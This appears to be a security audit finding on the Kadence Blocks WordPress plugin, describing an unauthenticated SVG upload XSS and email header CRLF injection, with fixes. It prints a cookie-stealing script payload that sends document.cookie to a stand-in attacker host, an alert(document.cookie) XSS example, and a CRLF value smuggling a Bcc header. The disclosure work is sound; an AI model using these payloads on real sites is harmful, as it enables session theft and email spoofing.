

# Kadence Blocks — Unauthenticated SVG XSS + Email Header Injection

**Finding ID:** KAD-001
**Plugin:** Kadence Blocks
**Active Installs:** 800,000+
**CVSS:** 6.1 (Medium) — `AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N`
**CWE:** CWE-79 (XSS) + CWE-93 (CRLF Injection / Email Header Injection)
**Auth Required:** None
**Source:** `analysis/phase5_manual/kadence-blocks/verdicts.json`

---

!!! warning "Medium Severity — Unauthenticated SVG XSS Confirmed"
    Kadence Blocks exposes an unauthenticated AJAX handler for SVG uploads that does not strip active SVG content (JavaScript event handlers, `<script>` tags). Additionally, form field values are passed to `wp_mail()` without header sanitization, enabling email spoofing.

---

## Attack Flow



---

## Finding 1: Unauthenticated SVG XSS

Kadence Blocks allows SVG file uploads for block icons via an unauthenticated AJAX handler. Uploaded SVG files are stored in the WordPress uploads directory without sanitizing active SVG content.

**Attack Vectors:**

1. **Direct SVG access**: An SVG file with embedded JavaScript (e.g., `<script>alert(document.cookie)</script>` or `onload="..."` event handlers) executes JavaScript when the file URL is opened directly in a browser.

2. **Embedded in pages**: If the stored SVG is embedded in a page using an `` tag with same-origin serving, active content executes in the page context.

**Impact:** Stored XSS affecting any visitor who accesses the SVG directly or views a page embedding it.

**Recommended Fix:**
```php
// Strip active SVG content before storage
$svg_content = file_get_contents($upload['file']);
$svg_content = preg_replace('/<script[\s\S]*?<\/script>/i', '', $svg_content);
$svg_content = preg_replace('/\bon\w+\s*=/i', 'data-removed=', $svg_content);
file_put_contents($upload['file'], $svg_content);
```
Or use a dedicated SVG sanitizer library (e.g., `enshrined/svg-sanitize`).

---

## Finding 2: Email Header Injection

Kadence Blocks form submission handlers accept user-supplied values and pass them to `wp_mail()` without sanitizing header values. This enables CRLF injection into email headers.

**Vulnerable pattern:**
```php
// User-controlled $field_value passed directly
wp_mail($to, $subject, $message, ['Reply-To: ' . $field_value]);
```

An attacker submits a form with CRLF sequences in a header field:
```
attacker@example.com\r\nBcc: victim@example.com
```

**Impact:** Email spoofing, spam relay through the victim site's mail server, potential phishing campaigns attributed to the victim domain.

**Recommended Fix:**
- Use `sanitize_email()` on all email address fields before passing to `wp_mail()`
- Strip CRLF sequences from all header values: `str_replace(["\r", "\n"], '', $value)`
- Never construct raw header strings from user input; use `wp_mail()`'s array-based headers parameter with individual validated values

---

## Combined Impact

!!! info "Attack Scenario"
    An unauthenticated attacker:

    1. Uploads a malicious SVG with `<script>fetch('https://attacker.example/?c='+document.cookie)</script>`
    2. Shares the direct URL to the stored SVG with targeted users (e.g., admins via a phishing email)
    3. When the admin opens the URL, their session cookie is exfiltrated

    Simultaneously, the email injection vulnerability can be used to send spoofed emails from the target site's mail server to amplify the phishing campaign.

---

## Recommended Fixes Summary

| Issue | Fix |
|-------|-----|
| SVG upload without sanitization | Require authentication OR sanitize active SVG content with a library like `enshrined/svg-sanitize` |
| Email header CRLF injection | Strip `\r\n` from all header values; validate email addresses with `sanitize_email()` |
| Unauthenticated upload endpoint | Add `permission_callback` requiring at minimum `upload_files` capability |
